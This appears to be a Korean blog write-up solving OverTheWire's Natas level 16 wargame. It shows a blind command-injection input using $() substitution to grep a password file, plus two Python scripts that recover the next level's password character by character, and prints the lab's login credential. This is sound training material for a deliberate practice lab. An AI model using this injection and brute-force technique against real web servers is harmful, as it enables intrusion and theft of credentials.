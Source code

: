 ```yaml
---
title: Natas Level 16 풀이
date: 2024-04-07 21:36:00 +09:00
categories: [wargame, natas]
tags: [natas, wargame]
image:
  path: assets/img/0407/natas16a.png
---
```

<br>
## 로그인
---
> Username: natas16
> <br> URL: <http://natas16.natas.labs.overthewire.org>


<br>특수문자를 더 필터링했다고 한다. 소스코드를 보면,
<br>![Desktop View](assets/img/0407/natas16b.png){: width="700" height="400" }<br>


소스코드가 익숙하다.. 찾아보니 <a href="https://00yj.tistory.com/165">natas9->10</a>과 비슷한 문제처럼 보인다.<br>
그런데 이번에는 Natas 9 to 10 에서 보다 많은 특수문자를 필터링하고 있으며,<br>
key로 받는 입력값도 명령어에 바로 주입되지 않도록 " "로 막아놨다. 


<br>
<br>
<br>
## 풀이
---
<br>리눅스에서는 <b>'명령어'</b> 또는 <b>$(명령어)</b>를 이용하면 "" 안에 있는 문자열도 명령어로 인식한다.<br>
<b>‘’</b>는 필터링에 걸리므로, <b>$()</b>를 이용하면 된다.


<b>happy</b>를 입력했을 때, 아래와 같이 뜬다.
<br>![Desktop View](assets/img/0407/natas16c.png){: width="700" height="400" }<br>

<br><b>happy$(grep a /etc/natas_webpass/natas17)</b>를 입력했을 때도 똑같이 출력된다.
<br>![Desktop View](assets/img/0407/natas16d.png){: width="700" height="400" }<br>
natas17 패스워드 문자열에 a가 없어서 happy를 입력했을 때와 같은 화면이 뜨는 것이다.


<br>반면<br><b>happy$(grep b /etc/natas_webpass/natas17)</b> 를 입력했을 때는 아무것도 뜨지 않는다.
<br>![Desktop View](assets/img/0407/natas16e.png){: width="700" height="400" }<br>
natas17 패스워드에 b가 있다는 뜻이다.<br>
이 결과를 이용하여 자동화 프로그램을 쓰면 된다.


<br>
<br>
<br>
## 자동화 프로그램
---
<br>먼저 패스워드를 이루는 문자열을 뽑는다.<br>
```python
import requests
from requests.auth import HTTPBasicAuth
 
auth = HTTPBasicAuth('natas16', 'TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V')
 
pw_char = ''
allchars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'
for char in allchars:
    r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=happy$(grep ' +
                     char + ' /etc/natas_webpass/natas17)', auth=auth)
 
    if 'happy' not in r.text:
        pw_char = pw_char + char
        print(pw_char)
```

<br>결과
<br>![Desktop View](assets/img/0407/natas16f.png){: w="250" h="500" }<br>

이제 출력된 문자열 bdhkmnsuvBCEHIKLRSUX1790을 하나씩 넣어서 패스워드를 조합하는 프로그램을 쓰자.<br>
앞의 코드랑 비슷하게 쓰면 된다.<br>
이 때 grep의 정규 표현식인 '^' 를 이용한다.<br>

> 정규 표현식이란 문자열의 집합을 지정하는 방법으로,<br>
특정 규칙을 만족하는 문자열을 찾기 위해 사용된다. 따라서<br>
<b>happy$(grep b /etc/natas_webpass/natas17)</b>는 'b'를 어디에나 포함하는 모든 줄을 찾고,<br>
<b>happy$(grep ^b /etc/natas_webpass/natas17)</b>는 오직 'b'로 시작하는 줄만을 찾는다.<br>
{: .prompt-info }


```python
import requests
from requests.auth import HTTPBasicAuth
 
auth = HTTPBasicAuth('natas16', 'TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V')
 
pw = ''
pw_char = 'bdhkmnsuvBCEHIKLRSUX1790'
 
for i in range(32):
    for char in pw_char:
        r = requests.get('http://natas16.natas.labs.overthewire.org/?needle=happy$(grep ^' +
                         pw + char + ' /etc/natas_webpass/natas17)', auth=auth)
 
        if 'happy' not in r.text:
            pw = pw + char
            print(pw)
            break
```


<br> 결과
<br>![Desktop View](assets/img/0407/natas16g.png){: w="250" h="500" }<br>


<a href="https://no-more-assignment.tistory.com/209">참고 블로그</a>
